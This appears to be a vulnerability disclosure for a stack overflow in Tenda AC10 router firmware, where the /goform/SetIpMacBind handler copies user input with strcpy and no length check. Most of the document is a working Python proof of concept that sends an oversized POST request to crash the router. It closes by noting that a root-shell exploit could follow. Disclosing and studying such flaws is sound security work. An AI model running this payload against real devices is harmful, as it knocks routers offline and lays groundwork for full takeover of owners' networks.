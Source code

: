 # Tenda AC10V15.03.06.23 Stack overflow vulnerability

## Firmware information

- Manufacturer's address：https://www.tenda.com.cn/

- Firmware download address ： https://www.tenda.com.cn/download/detail-2734.html


## Affected version

![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/AC10/form_fast_setting_wifi_set/img/1.png)


## Vulnerability details

![](https://github.com/z1r00/IOT_Vul/blob/main/Tenda/AC10/fromSetIpMacBind/img/2.png)

/goform/SetIpMacBind, The static_list is controllable, it will assign the value to the list, and finally use strcpy to copy the list to mib_buf. It is worth noting that there is no size check, which leads to a stack overflow vulnerability

## Poc

```python
import socket
import os

li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

ip = '192.168.0.1'
port = 80

r = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

r.connect((ip, port))

rn = b'\r\n'

p1 = b'a' * 0x1000
p2 = b'list=' + p1

p3 = b"POST /goform/SetIpMacBind" + b" HTTP/1.1" + rn
p3 += b"Host: 192.168.0.1" + rn
p3 += b"User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:102.0) Gecko/20100101 Firefox/102.0" + rn
p3 += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" + rn
p3 += b"Accept-Language: en-US,en;q=0.5" + rn
p3 += b"Accept-Encoding: gzip, deflate" + rn
p3 += b"Cookie: curShow=; ac_login_info=passwork; test=A; password=1111" + rn
p3 += b"Connection: close" + rn
p3 += b"Upgrade-Insecure-Requests: 1" + rn
p3 += (b"Content-Length: %d" % len(p2)) +rn
p3 += b'Content-Type: application/x-www-form-urlencoded'+rn
p3 += rn
p3 += p2

r.send(p3)

response = r.recv(4096)
response = response.decode()
li(response)
```

You can see the router crash, and finally we can write an exp to get a root shell


